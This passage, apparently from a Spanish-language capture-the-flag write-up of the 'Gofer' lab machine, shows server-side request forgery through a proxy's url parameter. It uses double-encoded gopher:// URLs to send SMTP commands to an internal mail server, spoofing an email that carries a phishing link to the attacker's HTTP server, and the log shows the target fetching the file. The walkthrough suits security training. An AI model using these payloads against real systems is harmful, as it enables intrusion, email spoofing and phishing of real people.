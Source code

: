 En el correo de antes, también leímos que el servidor de correo ahora es interno para que solo el equipo pueda enviar correos y así evitar problemas de Phishing, intentaremos enviar un correo a alguien en el servidor pero tendremos que construir una URL antes de hacer esto...

El protocolo SMTP es plaintext, por lo que podremos enviar comandos al servidor utilizando el `gopher://` pero para que el servidor lo procese debemos terminar cada comando con un newline (`%0A`), también debemos tener en cuenta que se tiene que aplicar un double url-encode a los carácteres que se van a enviar por esta codificación (`%250A`), debido a que esta petición será procesada por un servidor y luego un cliente HTTP. Siguiendo esto el servidor SMTP nos devuelve una respuesta:

```bash
❯ curl -X POST "http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/_%250AHELO%20gofer.htb%250Aasd%250AQUIT"
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
500 5.5.2 Error: bad syntax
250 gofer.htb
502 5.5.2 Error: command not recognized
221 2.0.0 Bye
1
```

Conociendo los comandos SMTP podremos construir una serie de comandos para enviarle un correo a alguien; nuestro objetivo será Jacelyn Hudson (jhudson@gofer.htb, intuido por los nombres vistos anteriormente). La URL resultante sería algo así:

```bash
gopher://2130706433:25/_%250AHELO%20gofer.htb%250AMAIL%20FROM:tbuckley@gofer.htb%250ARCPT%20TO:jhudson@gofer.htb%250ADATA%250ASubject:%20uwu%250AFrom:%20tbuckley@gofer.htb%250ATo:%20jhudson@gofer.htb%250A%250AHi%20from%20hacker%250A%250A.%250AQUIT
```

Como prueba de interacción, colocaremos un enlace en el correo para ver si esta persona lo pincha, ya que el correo visto anteriormente dice que ella suele caer en intentos de phishing.

```
gopher://2130706433:25/_%250AHELO%20gofer.htb%250AMAIL%20FROM:tbuckley@gofer.htb%250ARCPT%20TO:jhudson@gofer.htb%250ADATA%250ASubject:%20uwu%250AFrom:%20tbuckley@gofer.htb%250ATo:%20jhudson@gofer.htb%250A%250AHello,%20can%20you%20check%20this?%20http://10.10.14.56:8000/thingy.odt%250A%250A.%250AQUIT
```

Al enviarlo y esperar un rato, recibimos una petición en el servidor de prueba:

```bash
❯ curl -X POST "http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/_%250AHELO%20gofer.htb%250AMAIL%20FROM:tbuckley@gofer.htb%250ARCPT%20TO:jhudson@gofer.htb%250ADATA%250ASubject:%20uwu%250AFrom:%20tbuckley@gofer.htb%250ATo:%20jhudson@gofer.htb%250A%250AHello,%20can%20you%20check%20this?%20http://10.10.14.155:8000/thingy.odt%250A%250A.%250AQUIT"
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
500 5.5.2 Error: bad syntax
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as 1B493806D
221 2.0.0 Bye
1                                                                                     
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.225 - - [27/Oct/2023 14:32:23] "GET /thingy.odt HTTP/1.1" 200 -
```
